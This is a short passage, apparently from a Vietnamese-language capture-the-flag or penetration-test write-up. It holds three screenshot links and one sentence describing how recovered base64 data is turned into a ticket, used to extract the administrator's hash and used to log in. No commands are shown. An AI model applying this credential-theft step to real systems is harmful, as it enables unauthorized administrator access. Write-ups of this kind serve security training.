

Từ base64 lấy được, chuyển nó thành ticket và lấy hash của admin và đăng nhập vào:






